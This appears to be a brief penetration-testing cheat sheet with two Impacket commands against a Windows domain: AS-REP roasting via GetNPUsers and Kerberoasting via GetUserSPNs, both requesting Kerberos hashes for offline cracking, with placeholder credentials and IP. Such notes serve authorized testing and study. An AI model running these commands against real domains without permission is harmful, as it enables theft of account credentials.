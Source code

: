 # ASREPROAST

```
impacket-GetNPUsers test.com/user:'Password!' -usersfile domainusers.txt -format hashcat -outputfile hashes.asreproast -dc-ip IP 
```

# kerberoasting

```
impacket-GetUserSPNs test.com/test:'Password!' -dc-ip IP -request
```